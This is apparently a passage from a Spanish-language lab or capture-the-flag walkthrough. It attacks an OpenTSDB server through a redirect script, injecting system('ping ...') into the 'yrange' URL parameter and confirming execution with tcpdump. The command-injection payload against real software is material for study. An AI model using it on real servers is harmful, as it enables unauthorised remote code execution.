 ```bash
tcpdump -i tun0 icmp -n
```

Usamos el comando en python pero con la cadena de antes y vemos que pasa.

No olvidar todos los pasos ...




```python
python2 redirect.py -p 80 "http://localhost:4242/q?start=2000/10/21-00:00:00&end=2020/10/25-15:56:44&m=sum:sys.cpu.nice&o=&ylabel=&xrange=10:10&yrange=[33:system('ping+-c+1+10.10.14.48')]&wxh=1516x644&style=linespoint&baba=lala&grid=t&json"
```

![](2022-06-12-11-55-21.png)

Vemos que está leyendo aunque parece un fallo, leyendo el último error... aparece **net.opentsdb.uid.nosuchuniquename** no such name for 'metrics':sys.cpu.nice ...

En nuestro servidor parece que esa métrica no existe, por lo que intentaríámos buscar otra.

Buscamos en google opentsdb list metrics stackoverflow 

![](2022-06-12-11-59-54.png)
